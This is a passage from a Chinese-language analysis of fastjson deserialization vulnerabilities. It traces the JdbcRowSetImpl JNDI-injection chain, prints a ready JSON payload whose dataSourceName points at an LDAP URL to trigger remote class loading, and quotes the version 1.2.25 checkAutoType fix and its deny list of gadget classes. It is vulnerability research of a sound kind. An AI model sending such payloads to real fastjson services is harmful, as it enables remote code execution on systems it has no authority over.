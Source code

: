 
**JdbcRowSetImpl 反序列化**

JdbcRowSetImpl 类位于 `com.sun.rowset.JdbcRowSetImpl` ，这条漏洞利用链比较好理解，是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

先看一下 `setAutoCommit()` 方法，在 `this.conn` 为空时，将会调用 `this.connect()` 方法。

![](https://su18.org/post-images/1616400334257.png)

方法里调用了 `javax.naming.InitialContext#lookup()` 方法，参数从成员变量 `dataSource` 中获取。

![](https://su18.org/post-images/1616400975286.png)

这时调用链就十分清晰了，最终的 payload 为：
```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

## 2. fastjson-1.2.25

在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。

> 影响版本：`1.2.25 <= fastjson <= 1.2.41`
> 描述：作者通过为危险功能添加开关，并提供黑白名单两种方式进行安全防护，其实已经是相当完整的防护思路，而且作者已经意识到黑名单类将会无穷无尽，仅仅通过维护列表来防止反序列化漏洞并非最好的办法。而且靠用户自己来关注安全信息去维护也不现实。

安全更新主要集中在 `com.alibaba.fastjson.parser.ParserConfig`，首先查看类上出现了几个成员变量：布尔型的 autoTypeSupport，用来标识是否开启任意类型的反序列化，并且默认关闭；字符串数组 denyList ，是反序列化类的黑名单；acceptList 是反序列化白名单。

![](https://su18.org/post-images/1616459751324.png)

其中黑名单 denyList 包括：
```Java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

